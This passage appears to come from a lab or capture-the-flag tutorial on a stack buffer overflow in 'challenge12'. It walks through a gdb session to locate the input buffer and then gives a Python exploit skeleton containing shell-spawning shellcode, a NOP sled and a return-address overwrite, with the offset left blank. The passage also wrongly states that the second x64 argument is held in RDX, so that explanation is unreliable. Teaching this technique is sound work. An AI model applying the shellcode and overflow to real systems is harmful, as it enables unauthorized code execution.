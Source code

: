 Lets break before calling `handleData`:
```
(gdb) b *0x0000000000400828
Breakpoint 1 at 0x400828
```

And run it with some dummy data:

```
(gdb) run AAAAAAAA BBBBBBBB
Starting program: /root/challenges/challenge12/challenge12 AAAAAAAA BBBBBBBB

Breakpoint 1, 0x0000000000400828 in main ()
```

`handleData(char *username, char *password)` has two arguments. Remember that in x64 function
call convention, the first argument for the function call is stored in `RDI`,
the second in `RDX`. We can check this:
```
(gdb) x/4x $rdi
0x7fffffffe87b: 0x41414141      0x41414141      0x42424200      0x42424242
(gdb) x/4x $rdx
0x7fffffffe884: 0x42424242      0x42424242      0x52455400      0x74783d4d
```

Therefore, the start of the buffer, where our future shellcode will be, is `0x7fffffffe87b`.


## Create an exploit

The prepared exploit skeleton is available at the file `challenge12-exploit-skel.py`:
```python
#!/usr/bin/python
# Skeleton exploit for challenge12
import sys
import struct

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

buf_size = 64
offset = ??

ret_addr = struct.pack('<I', 0x??)

# fill up to 64 bytes
exploit = "\x90" * (buf_size - len(shellcode))
exploit += shellcode

# garbage between buffer and RET
exploit += "A" * (offset - len(exploit))

# add ret
exploit += ret_addr

# print to stdout
sys.stdout.write(exploit)
```

